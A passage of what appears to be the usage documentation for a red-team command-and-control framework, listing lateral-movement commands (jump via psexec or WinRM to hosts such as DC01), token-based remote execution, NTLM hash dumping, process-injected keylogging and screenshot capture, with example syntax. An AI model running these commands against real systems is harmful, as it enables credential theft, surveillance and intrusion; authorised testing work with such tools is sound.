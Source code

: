 ```
jump [psexec64,psexec,psexec_psh,winrm64,winrm] [server/workstation] [listener]
```

i.e.

```
jump psexec64 DC01 Lab-HTTPS
jump winrm WS04 Lab-SMB
jump psexec_psh WS01 Lab-DNS
...
```

* **remote-exec:** Execute a command on a remote target using psexec, winrm or wmi.\
  :exclamation: The **remote-exec** module will use the current delegation/impersonation token to authenticate on the remote target.
* **remote-exec Usage:**

```
remote-exec [method] [target] [command]
```

* **ssh/ssh-key:** Authenticate using ssh with password or private key. Works for both linux and windows hosts. It gives you basic ssh functionality with some additional post exploitation modules.

### Exflitration

* **hashdump:** Dump the local SAM hive's NTLM hashes. This only dumps local machine user credentials.
* **keylogger:** Will capture keystrokes of a specified process and save them on a database.
* **keylogger Usage:**

```
keylogger [pid] [x86|x64]
```

i.e.

```
keylogger 8932 x64
keylogger
...
```

This command can also be used without specifying arguments to spawn a temporary process and inject the keystroke logger into it.

* **screenshot:** Will capture the screen of a current process and save it on the database.
* **screenshot Usage:**

```
screenshot [pid] [x86|x64] [run time in seconds]
```

i.e.

```
screenshot 1042 x64 15
screenshot 773 x86 5
```
